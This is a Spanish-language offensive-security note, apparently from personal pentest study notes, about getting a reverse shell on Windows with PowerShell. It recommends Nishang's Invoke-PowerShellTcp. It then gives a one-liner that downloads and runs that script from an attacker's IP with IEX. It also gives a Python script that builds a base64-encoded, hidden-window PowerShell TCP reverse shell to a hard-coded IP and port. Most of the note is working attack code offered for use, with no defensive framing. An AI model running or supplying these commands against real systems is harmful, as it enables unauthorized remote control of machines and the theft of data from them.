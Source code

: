 
## DESCRIPTION

La que considero la mejor reverse shell para ejecutar en una máquina Windows con Powershell es Invoke-Powershell de Nishang.

#### Mas información
* https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
* Kali:  /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1

## EXPLOITATION

1. Para que se ejecute directamente añadir el comando siguiente al final del script:

![[Pasted image 20230215114445.png]]

2. Para descargar el fichero desde la máquina: [[TRANSFERRING FILES]]

```
#Por ejemplo
cmd /c "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.10:8080/Invoke-PowerShellTcp.ps1')"
```

**!!NOTA IMPORTANTE!!** 
* Si en algunos casos no nos deja ejecutar script ps1 por algun motivos podemos probar a crear una shell ".exe" con msfvenom [[BUILD REVERSE SHELL MSFVENOM]]


## SCRIPT PARA CREAR REVERSE SHELL CODIFICADA

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

![[Pasted image 20230526194151.png]]

![[Pasted image 20230526194212.png]]